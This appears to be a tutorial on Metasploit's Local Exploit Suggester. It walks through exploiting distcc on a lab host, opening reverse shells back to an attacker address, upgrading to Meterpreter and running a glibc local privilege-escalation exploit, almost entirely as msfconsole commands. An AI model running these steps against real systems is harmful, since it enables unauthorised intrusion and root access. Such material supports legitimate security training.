 # Local Exploit Suggester

This will explain how we can use the Local Exploit Suggester function in Metasploit.

#### Run msfconsole to start the Metasploit.

{% code overflow="wrap" %}
```bash
>msfconsole
```
{% endcode %}

#### Search for an exploit

```bash
msf5 > search distcc
```

#### Execute the exploit

```bash
msf5 > use exploit/unix/misc/distcc_exec
msf5 exploit(unix/misc/distcc_exec) > options
msf5 exploit(unix/misc/distcc_exec) > set rhosts 10.10.0.50
msf5 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
msf5 exploit(unix/misc/distcc_exec) >set lhost 192.168.142.141
msf5 exploit(unix/misc/distcc_exec) >run
```

#### Background the session

```bash
# Ctrl+z
```

![](<../.gitbook/assets/image (86).png>)

```bash
Background session 1? [y/N]  y
```

#### Upgrade the session to Meterpreter

{% code overflow="wrap" %}
```bash
msf5 exploit(unix/misc/distcc_exec) > sessions
msf5 exploit(unix/misc/distcc_exec) > sessions -u 1 # Upgrade the current session id 1 to meterpreter and create a new session (id 2) for it
msf5 exploit(unix/misc/distcc_exec) > sessions
msf5 exploit(unix/misc/distcc_exec) > sessions -i 2 
meterpreter > getuid
meterpreter > background
```
{% endcode %}

#### Search local exploit      # This is the most important part.&#x20;

{% code overflow="wrap" %}
```bash
msf5 exploit(unix/misc/distcc_exec) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > options
msf5 post(multi/recon/local_exploit_suggester) > set session 2 # meterpreter shell
msf5 post(multi/recon/local_exploit_suggester) > run
```
{% endcode %}

#### Run local exploit

{% code overflow="wrap" %}
```bash
msf5 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc
msf5 exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > options
msf5 exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > set session 2
msf5 exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > set lhost 10.10.0.1
msf5 exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > set lport 4321
msf5 exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > run
```
{% endcode %}
